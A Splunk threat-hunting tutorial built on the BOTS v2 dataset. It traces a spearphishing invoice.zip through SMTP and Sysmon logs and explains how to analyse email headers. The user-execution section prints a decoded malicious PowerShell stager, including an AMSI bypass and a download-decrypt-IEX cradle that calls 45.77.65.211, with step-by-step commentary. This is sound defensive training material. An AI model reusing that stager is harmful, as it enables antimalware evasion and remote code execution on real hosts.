


# Cyber Threat Hunting with Splunk Part 2: Initial Access

## Summary:

In this lesson we will continue cyber threat hunting using Splunk and the Boss of the SOC (BOTS) version 2 dataset. In the last exercise we discovered the recon phase of the attack, that included the download of a spreadsheet with company contact information. Based on that finding and further threat intelligence information we will hunt for initial access, specifically spear phishing attacks.  

## Objectives:

The objective of today’s session is to introduce you to threat hunting with Splunk

Objective 1: Continued practical familiarization using Splunk.

Objective 2: Analyze the initial access of an emulated APT campaign data set.

Objective 3: Create hunt hypotheses and plans based on threat intelligence reports.  

Objective 4: Identify indicators of compromise. 

## Scenario

Law enforcement warned your organization about a current campaign that may have impacted your organization. This campaign has been active against other organizations from the same industry sector. Based on the information below you must develop a Hunt hypothesis, plan of action, and execute the plan.

**Threat Intel Report Excerpt**

There have been multiple spearphishing campaigns targeting key members of organizations in our industry sector. The initial compromise begins with a zipped spearphishing attachment (T1566.001).  The adversary relies on User Execution (T1204.002) to open the attachment and launch the infection process. The lure to entice victims into executing the malware has been financial related, such as financial statements, requisitions, invoices, receipts, etc.

**What Source Types are Available**

We will be using Splunk to conduct most of our investigation. One of the key points to know when developing a Hunt plan is what information is available to conduct the hunt. For example, we know this hunt involves looking for potential phishing and user execution. Do we have access to email logs? A useful query to see what source types are available in our Splunk instance (index=botsv2) is shown below.

```jsx
| metadata type=sourcetypes index=botsv2
```

<aside>
💡 As seen below, two sourcetypes jump out as being useful in this hunt. First, we have demonstrated the usefulness of Sysmon logs in previous exercises. Second, the smtp (email) sourcetype will be critical when hunting for phishing emails.


</aside>

**Hypothesis**

Based on threat intelligence we assume that the malicious actor has targeted our organization in August with spearhpishing attempts with malicous attachments and at least one of our users interacted with the attachment.

**Plan of Action**   

We will begin by reviewing mail logs from sourcetype stream:smtp during the month of August. Based on our findings we will pivot to sysmon logs and search for process creations (Event ID 1).  

**Initial query**

We will use the time frame of August 2017 for our hunt. Set the time picker accordingly.

<aside>
💡


</aside>

Our first query will be for smtp logs.

```powershell
index=botsv2 sourcetype=stream:smtp
```

<aside>
💡


</aside>

Scroll to the bottom and select “more fields.”

<aside>
💡


</aside>

As we can see Splunk does not automatically show all fields. Go through the possible fields and choose the appropriate fileds needed for our hunt. At a minimum, select receiver, sender, src_ip, subject, attach_filename{}, attach_type{}, attach_size{}, and attach_content_md5_hash{}.

<aside>
💡


</aside>

<aside>
💡 Double-click attach_filename{} and as seen below it shows all email attachment names. Invoice.zip seems suspicious and should be investigated.


</aside>

Double-clicking invoice.zip adds it to the filter, which narrows down to 4 events.

<aside>
💡


</aside>

We can now take a closer look at other fields to discover useful information.

```powershell
index=botsv2 sourcetype=stream:smtp "attach_filename{}"="invoice.zip"
|Table _time, receiver, sender, src_ip, subject, attach_filename{}, attach_type{}, attach_size{}, attach_content_md5_hash{}
```

<aside>
💡 As seen below we see some common denominators. All four emails were sent from the same sender, each had the same subject, file name, file size, file hash, and file type.


</aside>

Based on OSINT research (ipinfo.io) the last hop from each email was from a Microsoft mail server.


Digging deeper by switching from Statistics to Events.

<aside>
💡


</aside>

We can see the contents of the email, including the header, by clicking the drop down at “content”.

<aside>
💡


</aside>

<aside>
💡 Copy and paste the email header.


</aside>

<aside>
💡 Paste the email header in MX Toolbox we discover where the emails originated from (185.83.51.21).


</aside>

## Background on Elements of the email header.

**WARNING** Many elements of the email header can be spoofed. Do the due dilligence and do the analysis; however, understand that the information can be altered by the attacker. 

**Message-ID:** Provided by the originating mail server and consisting of a unique identifier appended to the server name with an @ symbol. It is similar to a tracking number for the message and is logged by receiving mail servers. A search of mail server logs for the message-ID will provide evidence of the email passing through.

**Significance:** Useful for tracking specific emails.


**Received:** You can trace the path a message took by reading the “Received” entries, starting from the bottom-most entry (the originating mail server). Each MTA traversed adds a "Received” entry, and each entry includes the server IP address, server name, date, time, and time zone. Keep in mind that spammers have been known to insert fake “Received” lines in messages. However, entries included by your own MTAs should be trustworthy.

**Significance:** Identifies the email's path and origin.


**Sender Policy Framework (SPF)** is often denoted in the header with a "Received-SPF“ line. SPF allows organizations to identify which mail servers are allowed to send email from their domain. It provides an easy means for receiving mail transfer agents to validate the sending IP address to the purported domain. The primary purpose is to prevent spammers from forging messages from a specific domain. Not every mail server will include this information, but you should be suspicious of any failures noted in the email header. THIS CAN BE SPOOFED OR BYPASSED


**DomainKeys Identified Mail (DKIM)** information is another mechanism to validate the source and content of a message by allowing the originating server to sign the message with a digital signature. DKIM can be used to protect the entire message, or just parts like the “From:'' field. A valid DKIM check authenticates the sending domain and ensures elements of the message were not changed en route from the original mail server.

**Significance:** Shows authentication status during transit.


**ARC (Authenticated Record Chain):** Preserves email authentication results and verifies the identity of email intermediaries that forward a message on to its final destination.

**ARC Seal header:** A DKIM-like signature that includes the ARC Signature and the ARC Authentication Results header information. This ARC Seal header contains a tag called chain validation “cv=”, which contains the outcome of evaluating the existing ARC chain. Value can be “none”, “fail” or “pass”

**ARC Message Signature header:** Another DKIM-like signature that takes a snapshot of the message header information, including the to, from, subject, and body.

**ARC Authentication Results Header:** Header containing email authentication results like SPF, DKIM, and DMARC.


**DMARC (Domain-based Message Authentication, Reporting & Conformance):** An email authentication, policy, and reporting protocol. It builds on the widely deployed SPF and DKIM protocols, adding linkage to the author (“From:”) domain name, published policies for recipient handling of authentication failures, and reporting from receivers to senders, to improve and monitor protection of the domain from fraudulent email.

**Return-Path:** A return path is used to specify where [bounced emails](https://www.mailgun.com/blog/deliverability/email-bounces-what-to-do-about-them/) are sent and is placed in the email header. It’s an SMTP address separate from the sending address.


### Online Email Analyzers

MX Toolbox (https://mxtoolbox.com/EmailHeaders.aspx)


Microsoft (https://mha.azurewebsites.net/)


## Analysis Tips

**Potentially Identifying the Actual Sender:** By examining the 'Received' lines, you can trace the email's path. The first 'Received' line at the top is the most recent server it passed through. If an email claims to be from a legitimate company but the path shows different servers, it might be suspicious.

**Checking for Consistency:** Verify if the 'Return-Path', 'Received', and 'From' fields are from the same domain. Discrepancies can indicate spoofing.

**Analyzing Timestamps:** Check the timestamps in the 'Received' lines. Unusual time delays or odd time zones could indicate a falsified email.

**Verifying DKIM and SPF Records:** These are email authentication methods. A failed DKIM (DomainKeys Identified Mail) or SPF (Sender Policy Framework) check could indicate that the email is not from the purported sender. As previously mentioned, these can be spoofed.

**Tracing IP Addresses:** 'Received' lines often include IP addresses of the mail servers. Use IP lookup tools to check the locations and authenticity of these servers

**Spotting Unusual Patterns:** Look for patterns like strange formatting, unfamiliar server names, or other inconsistencies.

**Caution with Links and Attachments:** If the email contains links or attachments, be cautious. Analyze the URL by hovering over it without clicking, to see if it directs to a suspicious site.

**Using Header Analysis Tools:** There are various online tools available that can analyze email headers and highlight suspicious elements.

## Back to Our Investigation

Pivot from the IP address identified as the originator (185.83.51.21) with OSINT by going to ipinfo.io. 

<aside>
💡


</aside>

We see the domain for that IP address is ymlp.com. We can use OSINT to discover that YMLP is an email sending service.

<aside>
💡


</aside>

Unfortunately, this will not tell us much as far as attribution, since this service could be used by anybody.

Going back to what we discovered earlier, we can see the content of each email was identical.

<aside>
💡


</aside>

We should now pivot on the sender to see if the same sender had sent more phishing emails.

```jsx
index=botsv2 sourcetype=stream:smtp sender="Jim Smith <jsmith@urinalysis.com>" | table  _time, receiver, sender, src_ip, subject, attach_filename{}, attach_type{}, attach_size{}, attach_content_md5_hash{}
```

As seen below, the sender email address had sent suspicious emails to the same four recipients 13 days prior.

<aside>
💡


</aside>

Further analysis shows that the sender used the previously discovered email sending service in the first set of emails.

<aside>
💡


</aside>

When examining the content of the newly found emails a couple of items jump out as suspicious. 

<aside>
💡 First, the name of the text file. Second is the base64 encoded data.


</aside>

Dropping the base64 data into Cyberchef shows that the attachment was detected as malware and was removed.

<aside>
💡


</aside>

Based on our analysis above, this is what we currently know.

- Phishing was attempted twice.
    
    First attempt was unsuccessful.
    
    Second attempt delivery succeeded.
    
- Sender IP: 185.83.51.21
- Sender Name is Jim Smith <jsmith@urinalysis.com>
- Phishing targeted the same four recipients both times.
- Subject: Invoice
- Body was identical
- Emails were sent in close proximity, but individually
- Attachment was the same for each recipient.

Below is a graphical representation of what we currently know.

<aside>
💡


</aside>

# User Execution

Since we know that four recipients received the phishing email, we should now look for user execution to see if one of the recipients executed the attachment.    

Since we know when the phishing attempt occurred, we can narrow our time picker to 23 August. The first query we will do is shown below. By not including a sourcetype, it will show us what sourcetypes have logged invoice.zip. CAUTION: In an enterprise environment the only time a query should be ran with no sourcetype is when the time picker is set to a date/time window as small as possible, in order to make the query as efficient as possible.

```jsx
index=botsv2 invoice.zip sourcetype!="stream:smtp"
```

<aside>
💡


</aside>

We can drill down in the host field and see all logs with invoice.zip were from the same host.

<aside>
💡


</aside>

This is the host belonging to one of the phishing email recipients, Billy Tun. While we have more analysis to conduct, we can assume Billy Tun interacted with the phishing attachment, invoice.zip.

From the registry source type we can see WINWORD opening invoice.doc from the temp invoice.zip.

<aside>
💡


</aside>

We can use the following query to check sysmon logs and see the same thing.

```jsx
index=botsv2 sourcetype="xmlwineventlog:microsoft-windows-sysmon/operational" invoice.zip | table _time, Computer, User, EventCode, EventDescription
```

<aside>
💡


</aside>

<aside>
💡


</aside>

We can dig deeper by changing the time picker to the time of the first Sysmon event.

<aside>
💡



</aside>

Focusing on the host, we can then run this query and piping it to reverse so that it shows the order of execution.

```jsx
index=botsv2 sourcetype="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="wrk-btun" | reverse
```

We soon discover a suspicious base64 encoded PowerShell script.

<aside>
💡


</aside>

Dropping the base64 encoded data into CyberChef and removing the null bytes reveals the malicious PowerShell.

<aside>
💡



</aside>

This script performs several tasks related to security evasion and unauthorized access. Let's break it down step by step:

1. **`[REF].ASSEmblY.GeTTYPe('System.Management.Automation.AmsiUtils')|?{$_}|%{$_.GetFIELd('amsiInitFailed','NonPublic,Static').SetVaLue($nuLl,$TruE)}`**: This part of the script is attempting to disable AMSI (Antimalware Scan Interface) in PowerShell by setting the **`amsiInitFailed`** field to **`$true`**, effectively bypassing potential antivirus or antimalware detections.
2. **`[SYsTEM.Net.SerVIcEPOinTMAnAGEr]::EXPEcT100CONtinue=0;`**: This line disables the "Expect: 100-continue" header in HTTP requests, which can improve performance but may not be necessary for all scenarios.
3. **`$wC=NEw-OBjECT SysTem.NEt.WeBCliEnT;`**: This creates a new instance of **`System.Net.WebClient`**, which is used for sending HTTP requests.
4. **`$u='Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko';`**: This line sets the user-agent string to mimic a web browser on a Windows system.
5. **`[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true};`**: This line sets the server certificate validation callback to always return true, effectively ignoring SSL certificate errors.
6. **`$Wc.HeADers.Add('User-Agent',$u);`**: This adds the user-agent string to the HTTP request headers.
7. **`$Wc.PROXy=[System.NEt.WEBRequeST]::DefAUltWebPrOxy;`**: This line sets the proxy for the web client to the default system web proxy.
8. **`$WC.PRoxy.CREDeNtIAls = [SySteM.NET.CRedENtiAlCAChE]::DeFAulTNETWoRkCreDENTIalS;`**: This sets the credentials for the proxy to the default network credentials.
9. **`$K=[SysTem.TExt.ENcOdiNG]::ASCII.GetBYTes('389288edd78e8ea2f54946d3209b16b8');`**: This line initializes a key using ASCII bytes.
10. **`$R={$D,$K=$ArgS; ... }`**: This defines a function **`$R`** that performs a custom encryption or decryption operation using a provided key **`$K`**.
11. **`$WC.HeaDeRS.Add("Cookie","session=jknXpoa7pUA0lDB+nYiQvU9unHg=");`**: This adds a cookie to the HTTP request headers, potentially for maintaining a session.
12. **`$ser='https://45.77.65.211:443'; $t='/login/process.php';`**: These lines set the server URL and target endpoint for the HTTP request.
13. **`$DATA=$WC.DoWnLoAdDaTa($SEr+$t);`**: This line sends an HTTP request to the specified URL and endpoint and stores the response data.
14. **`$IV=$DATa[0..3]; $dATa=$DaTA[4..$daTa.LeNGtH];`**: These lines extract the initialization vector and actual data from the response.
15. **`joiN[CHar[]](& $R $data ($IV+$K))|IEX`**: This line decrypts the data using the custom decryption function **`$R`** and then executes the decrypted code using **`Invoke-Expression`** (**`IEX`**), which can be dangerous as it executes arbitrary code.

Overall, this script appears to be attempting to perform some form of communication with a remote server, potentially downloading and executing additional code in an obfuscated manner, while bypassing certain security measures like AMSI and SSL certificate validation. 

Discovering this script also provided another indicator of compromise to pivot from, the IPv4 address 45.77.65.211, which we will use in the next phase of the hunt.  

## Conclusion

At this point in the investigation we know that a user interacted with the phishing attachment that spawned PowerShell which called out to 45.77.65.211. We will continue the investigation in future exercises.

<aside>
💡


</aside>

## References

Data for this exercise is from https://bots.splunk.com/

If interested in more of this type of exercise login and explore free exercises from Splunk.